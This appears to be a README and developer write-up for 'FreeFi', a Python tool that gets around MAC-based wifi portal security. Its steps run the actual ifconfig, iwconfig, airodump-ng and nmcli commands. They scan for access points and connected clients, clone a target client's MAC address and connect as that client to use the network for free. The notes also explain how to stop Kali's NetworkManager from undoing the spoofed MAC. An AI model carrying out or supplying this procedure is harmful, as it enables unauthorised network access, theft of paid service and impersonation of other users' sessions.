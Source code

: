 # FreeFi

Temp dev notes from Steve:
- wifite was very helpful in helping understand some of the gotchas around setting up the wifi device

- Renamed to FreeFi and set the !# bash interpreter line so it will auto-use python when running FreeFi like an executable, you might need to chmod +x it if exe bit not set

- NetworkManager by default in Kali anonymizes and changes the mac address of at least the wifi card automatically every few minutes which is a problem as it conflicts with
our spoofing. Adding file /etc/NetworkManager/conf.d/{anyname}.conf to stop NetworkManager from changing mac addr constantl with contents:

    [device]
    wifi.scan-rand-mac-address=no

    [connection]
    ethernet.cloned-mac-address=preserve
    wifi.cloned-mac-address=preserve

then 'service network-manager restart' if necessary

- ethtool -P wlan0   to get permanent mac address

---- writeup summary below ----

-- FreeFi is a 500+ line python program to bypass MAC based security in wifi portals
-- user supplies wifi interface to use, wlan0 for example
-- step 1: use 'ifconfig' to anonymize our mac address (just to be paranoid and make sure out mac doesn't get out there)
  ifconfig wlan0 down
  ifconfig wlan0 hw ether {random mac address}
  ifconfig wlan0 up
-- step 2: use 'ifconfig' and 'iwconfig' to put wifi adapter in monitor mode
  ifconfig wlan0 down
  iwconfig wlan0 mode monitor
  ifconfig wlan0 up 
-- step 3: use 'airodump-ng' to scan for access points. Airodump writes a CSV file to disk every second
and we parse that CSV file and show the output to the user. When the user sees the AP they want to attack, they ctrl-c and select the access point
  airodump-ng -a --write-interval 1 -w ff-airodump -o csv wlan0
                        "-a",                               # filter unassociated clients
                        "--write-interval", "1",            # write once a second
                        "-w", AIRODUMP_FILE_NAME_PREFIX,    # output file prefix
                        "-o", "csv",                        # only need the csv file
                        iface_name] 

-- step 4: use 'airodump-ng' with diff params to scan for clients connected to the target AP, same as
above airodump write a CSV file that we parse in real time to show client, user presses ctrl-c when
ready and selects a target
  airodump-ng -a --write-interval 1 -w ff-airodump -o csv -c ap_channel --bssid target_bssid
                        "-a",                                   # filter unassociated clients
                        "--write-interval", "1",                # write once a second
                        "-w", AIRODUMP_FILE_NAME_PREFIX,        # output file prefix
                        "-o", "csv",                            # only need the csv file
                        "-c", str(target_access_point.channel), # only scan target ap channel
                        "--bssid", target_access_point.bssid,   # filter for target ap bssid
                        iface_name] 
 
 -- step 5: now we have a target AP and target client, so disable monitor mode on the adapter:  
  ifconfig wlan0 down
  ifconfig wlan0 mode managed
  ifconfig wlan0 up
 set our MAC addr to the client MAC addr:
  ifconfig wlan0 down
  ifconfig wlan0 hw ether target_client_mac_addr
  ifconfig wlan0 up
and then connect to the AP:
  nmcli device wifi connect {access point ssid}
and stay connected while we use the free wifi!

-- step 6: when user is done, they hit ctrl-c and FreeFi disconnects from AP, returns MAC
address to original mac address and quits

learnings and difficulties
- FreeFi is formatted to look similar to wifite, just because it's kinda cool
- discovered that Kali by default randomizes its wifi mac address every few minutes, took a bit
to figure out how to turn that behavior off correctly as it obviously interferes with us
setting the mac address to match the target client
- didn't want to confuse or kill NetworkManager so it took some time to get all of the wifi commands
we're doing to not interfere with NetworkManager so that we can still use it to connect
 to AP (unlike tools like aircrack that might recommend that you kill network manager)
- took a while to figure out which tools give the desired effect, documentation is lacking
in general, often the stuff I can find online is wrong or outdated or just didn't do anything
at all. For example, Using nmcli to connect to wifi AP was the only way that worked reliably vs
using 'iwconfig wlan0 essid {access_point}'


- it would be nice to fully spoof the target client even in the browser headers, for some reason
the web server might be throwing a fit when it's getting oddly different browser info from
different users (did it crash the server)?
 